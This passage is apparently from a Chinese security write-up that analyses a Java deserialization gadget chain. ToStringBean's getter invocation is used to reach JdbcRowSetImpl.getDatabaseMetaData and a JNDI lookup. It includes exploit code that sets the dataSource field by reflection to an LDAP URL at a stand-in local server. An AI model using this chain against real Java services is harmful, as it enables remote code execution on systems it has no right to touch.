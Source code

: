 ### 详细分析

这条链的组合是前半部分不变，修改后半部分，即替换前面的TemplatesImpl为JdbcRowSetImpl，后面的链就会发生变化

同样在ToStringBean的toString方法中，会调用getPropertyDescriptors来获得JdbcRowSetImpl的所有公开的get方法，然后逐个使用invoke调用  
而在JdbcRowSetImpl链中的关键是调用getDatabaseMetaData方法  
[![](assets/1705886615-4ea04b0a58e5df81f9b401ff9d9a1469.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120124955-5b639a46-b74f-1.png)

在JdbcRowSetImpl的getDatabaseMetaData方法中会调用connect方法

```plain
public DatabaseMetaData getDatabaseMetaData() throws SQLException {
    Connection var1 = this.connect();
    return var1.getMetaData();
}
```

进入connect方法，会调用lookup函数，所以这里的getDataSourceName的返回值非常关键，需要是可以利用的ldap链接，所以在exp中进行如下设置

```plain
// ldap url
String url = "ldap://127.0.0.1:1389/nils4f";

// 创建JdbcRowSetImpl对象
JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
Field dataSource = BaseRowSet.class.getDeclaredField("dataSource");
dataSource.setAccessible(true);
dataSource.set(jdbcRowSet, url);
```
